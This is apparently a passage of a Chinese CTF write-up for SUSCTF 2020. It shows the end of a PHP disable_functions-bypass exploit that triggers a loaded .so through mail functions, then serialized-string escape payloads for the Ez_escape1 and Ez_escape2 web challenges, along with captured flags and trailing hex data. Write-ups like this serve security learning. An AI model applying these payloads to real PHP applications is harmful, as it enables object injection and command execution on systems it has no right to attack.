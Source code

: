 ```php
    } elseif (function_exists('mb_send_mail')){
        mb_send_mail("","","");
    } elseif ((function_exists('imap_mail'))){
        imap_mail("","","");
    } else {
        @unlink($so_file);
        return FAILURE;
    }

    // del so file
    @unlink($so_file);
    return recv_result($cmd_arr[1]);
}
```

当时比赛时没仔细研究漏洞实现方式，直接拿着用了，话说flag位置不一样真的头大

![image-20201020124544331](https://timg.reito.fun/archive/typora-schwarzer/image-20201020124544331.png)

赛后搜集了漏洞的一些[资料](https://blog.csdn.net/weixin_30326515/article/details/95187919)，最后是flag

```
SUSCTF{b8562faa894ea00c3de86eebbc5bd03a}
```

## [web]Ez_escape1

这题的filter函数可以使得序列化产生的长度与实际长度不符，因此把payload放在后面，再在前面放上payload长度一半的`nzgnb`即可

```
nzgnbnzgnbnzgnbnzgnbnzgnbnzgnbnzgnbnzgnbnzgnbnzgnbnzgnbnzgnbnzgnb";s:6:"number";i:1008611;}
```

发送给服务器拿到flag，再进行解码

![image-20201020125207133](https://timg.reito.fun/archive/typora-schwarzer/image-20201020125207133.png).

```
SUSCTF{54ca2dc67a447afb7765df613c89993b}
```

## [web]Ez_escape2

我是先做的这题再做的escape1，甚至觉得2比1简单，一样先访问服务器获取php源码，filter函数会把`Haidilao`替换成`Hedilao`，因此每一个海底捞都会导致反序列化时多一字符被吞掉，因此我想吞到下文`TRY`的前一个单引号即可

```php
O:7:"escape2":3:{s:8:"haidilao";s:6:"FILLME";s:4:"core";s:3:"TRY";s:3:"num";s:4:"2019";}
```

这样反序列化会把前面的当成值，在`core`里重新构造即可，注意对象数要保持和前面3一致

```php
";s:3:"num";s:4:"2020";s:3:"num";s:4:"2020";}
```


[0]:  000000000000000000000000aba596caeac381cd80d5cdaa098a82b999ead1d9
[1]:  000000000000000000000000c9219dd84a3210920addbead9d0099f4a8b27229
[2]:  00000000000000000000000000000000000000000000000000000000000f32a7
[0]:  0000000000000000000000000000000000000000000000000000000000000020
[1]:  0000000000000000000000000000000000000000000000000000000000000030
[2]:  6333567a5933526d4d6a41794d45426a65574a6c636e4e7759574e6c6332566a
[3]:  64584a7064486b75623235736157356c00000000000000000000000000000000